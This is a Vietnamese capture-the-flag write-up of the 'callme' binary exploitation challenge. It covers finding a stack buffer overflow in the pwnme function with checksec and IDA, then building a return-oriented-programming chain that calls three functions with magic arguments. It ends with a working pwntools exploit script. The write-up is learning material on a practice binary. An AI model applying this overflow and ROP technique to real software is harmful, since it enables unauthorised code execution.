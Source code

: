 **1. Tìm lỗi**

Chạy thử chương trình ta có:

![run.png](photo/run.png)

Chương trình cho phép nhập một chuỗi và kết thúc ngay sau đó

Dùng lệnh checksec kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

Ta thấy là file elf64 nên mở bằng IDA64 ta được hàm main như sau: 

![main.png](photo/main.png)

Hàm pwnme: 

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho phép đọc 512 byte -> Có lỗi bof

Hàm usefulFunction:

![use.png](photo/use.png)

Đọc mã assembly của hàm callme_one, callme_two, callme_three thì thấy chèn các giá trị 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d vào 3 hàm trên thì sẽ đọc các file cần thiết đề có giá trị flag

**2. Ý tưởng**

Nhập tràn biến s đến ret rồi gọi theo thứ tự các hàm callme_one, callme_two, callme_three với các giá trị tương ứng đã nêu ở trên

Để truyền các giá trị vào các hàm trên thì chúng ta cần truyền các giá trị trên vào các thanh ghi rdi, rsi, rdx nên chúng ta cần phải pop các thanh ghi kia ra

Thứ tự payload:
 - 40 byte để tràn đến ret
 - Địa chỉ câu lệnh pop rdi, rsi, rdx
 - Truyền các địa chỉ tương ứng vào
 - địa chỉ lệnh callme_one
 - tương tự với callme_two và callme_three

![pop.png](photo/pop.png)

Ta thấy địa chỉ 0x000000000040093c đã pop luôn cả 3 thanh ghi cần thiết ra

**3. Viết script**

![s.png](photo/s.png)

Khoảng cách từ s đến ret là: 0x20 + 0x8 = 40

Ta có script như sau:

```
from pwn import *

r = process("./callme")
pop = 0x000000000040093c
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
callme_one = 0x7ffff7dc581a
callme_two = 0x7ffff7dc592b
callme_three = 0x7ffff7dc5a2d

payload = b'a'*40
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_one)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_two)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_three)

r.sendafter('> ', payload)

r.interactive()
```
